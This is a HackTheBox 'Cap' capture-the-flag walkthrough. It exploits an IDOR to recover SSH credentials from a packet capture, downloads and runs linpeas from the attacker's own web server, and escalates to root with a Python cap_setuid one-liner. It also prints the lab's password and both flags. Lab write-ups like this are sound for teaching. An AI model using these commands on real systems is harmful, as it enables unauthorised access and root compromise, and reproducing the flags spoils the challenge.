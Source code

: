 # HackTheBox **Cap**  
**Difficulty:** Easy  
**Platform:** Linux  

## Reconnaissance:
I'll start with a simple nmap scan on the IP.

```markdown
nmap -sC -sV -oN outputNMAP.txt $IP 
```

![OutputNMAP](img1.png)

Next, I'll check the webpage hosted on port 80.

![Webpage](img2.png)

Inspecting the URL of the "Security Snapshot" page, I notice the section "/data/2". This suggests a possible IDOR vulnerability, so I'll try changing the file name to 0.

It worked.

![IDOR](img3.png)

Moving on, I'll use Burp Suite to intercept the download.

Examining the response, I find:
- Username: **nathan**
- Password: **Buck3tH4TF0RM3!**

With FTP and SSH ports open, I attempt to login as Nathan using SSH.

```markdown
ssh nathan@$ip
Buck3tH4TF0RM3!
```

Success. I retrieve the user flag.

### Flag: f1fafff7c73689e4595da05329e618c5

For the privilege escalation part, I'll transfer linpeas to the target.

Starting a server on my machine: 

```markdown
python3 -m http.server -b $machineIP
```

Downloading linpeas on the target:

```markdown
wget http://$machineIP:8000/linpeas.sh
```

Executing linpeas:

```markdown
chmod +x linpeas.sh
./linpeas.sh
```

![Linpeas](img4.png)

LINPEAS reveals an interesting finding about `cap_setuid` on Python 3.8’s binary. Consulting GTFOBins, I learn that we can exploit this using:

```markdown
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Executing this command grants root access.

I retrieve the root flag.

### Flag: d1f70fc80589522bd58b0502b6452a6b